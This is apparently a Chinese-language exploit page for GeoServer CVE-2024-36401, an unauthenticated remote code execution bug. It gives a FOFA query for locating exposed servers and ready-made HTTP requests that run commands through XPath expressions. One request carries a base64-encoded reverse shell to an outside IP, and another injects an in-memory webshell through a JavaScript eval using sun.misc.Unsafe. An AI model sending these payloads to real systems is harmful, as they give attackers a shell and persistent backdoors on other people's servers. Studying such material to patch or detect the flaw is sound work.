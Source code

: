 ## GeoServer属性名表达式前台代码执行漏洞(CVE-2024-36401)

GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

在GeoServer 2.25.1， 2.24.3， 2.23.5版本及以前，未登录的任意用户可以通过构造恶意OGC请求，在默认安装的服务器中执行XPath表达式，进而利用执行Apache Commons Jxpath提供的功能执行任意代码。

## fofa

```
app="GeoServer"
```
/geoserver
![image](https://github.com/user-attachments/assets/38a077ac-3434-4736-a53f-7f274e891065)

## poc

```yaml
GET /geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/success1') HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0

```

```yaml
POST /geoserver/wfs HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'touch /tmp/success2')</wfs:valueReference>
</wfs:GetPropertyValue>
```

![1](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407030846166.png)

## 反弹shell

```yaml
POST /geoserver/wfs HTTP/1.1
Host: 192.168.18.131:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'bash -c {echo,c2ggLWkgPiYgL2Rldi90Y3AvMTAuMjEuNjkuMTYvODA4NSAwPiYx}|{base64,-d}|{bash,-i}')
</wfs:valueReference>
</wfs:GetPropertyValue>
```

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407051256200.png)

## jdk11 注入内存马

jdk17 版本注入内存马不成功

环境：https://zenlayer.dl.sourceforge.net/project/geoserver/GeoServer/2.25.1/geoserver-2.25.1-bin.zip?viasf=1

```java
POST /geoserver/wfs HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'
var str="内存马base64";
var bt;
try {
    bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);
} catch (e) {
    bt = java.util.Base64.getDecoder().decode(str);
}
var theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
theUnsafe.setAccessible(true);
unsafe = theUnsafe.get(null);
unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), bt, null).newInstance();
')</wfs:valueReference>
</wfs:GetPropertyValue>
```

使用jmg工具生成内存马

![image-20240705150433570](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407051516724.png)



将生成的内存马base64填入到`var str="内存马base64";`

![image-20240705150510773](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407051517580.png)

![image-20240705150611691](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407051517614.png)



## 漏洞来源

- https://github.com/vulhub/vulhub/blob/master/geoserver/CVE-2024-36401/README.zh-cn.md
- https://yzddmr6.com/posts/geoserver-memoryshell/
